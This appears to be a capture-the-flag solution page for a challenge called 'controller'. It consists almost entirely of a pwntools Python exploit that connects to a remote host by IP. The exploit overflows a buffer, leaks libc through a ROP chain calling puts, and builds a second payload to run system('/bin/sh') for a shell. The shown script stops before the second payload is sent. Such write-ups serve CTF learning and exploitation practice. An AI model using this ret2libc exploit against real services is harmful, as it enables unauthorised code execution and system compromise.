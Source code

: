 # PWN

# controller

```python
#!/usr/bin/python3

from pwn import *

context.binary = './controller'
elf = ELF("./controller")
#p = elf.process()
p = remote("188.166.145.178",31635)

def exploit():

    #binaries

    offset = 40
    ret = 0x400606
    pop_rdi = 0x4011d3
    main = 0x401124
    calculator_addr = 0x401066
    puts = 0x400630

    # stage I

    payload = b"A"*offset
    payload += p64(pop_rdi)
    payload += p64(elf.got["puts"])
    payload += p64(puts)
    payload += p64(elf.symbols['main'])

    p.sendline("-130676 -2")
    p.sendlineafter("> ","4")
    p.sendlineafter("> ",payload)

    p.recvline(b"Problem ingored\n")

    leak = u64(p.recv()[:6].ljust(8,b"\x00"))
    print(f"Leaked libc : {hex(leak)}")

    # stage II

    libc = ELF("./libc.so.6")

    libc.address = leak - libc.symbols["puts"] 
    print(f"Libc BASE : {hex(libc.address)}")

    bin_sh = next(libc.search(b"/bin/sh\x00"))
    system = libc.symbols["system"]
    print('binsh is ' + hex(bin_sh))
    print('system is ' + hex(system))

    payload = b"A"*offset
    payload += pack(pop_rdi)
    payload += pack(bin_sh)
    payload += pack(ret)
    payload += pack(system)
    payload += pack(0xdeadbeefdeadbabe)

```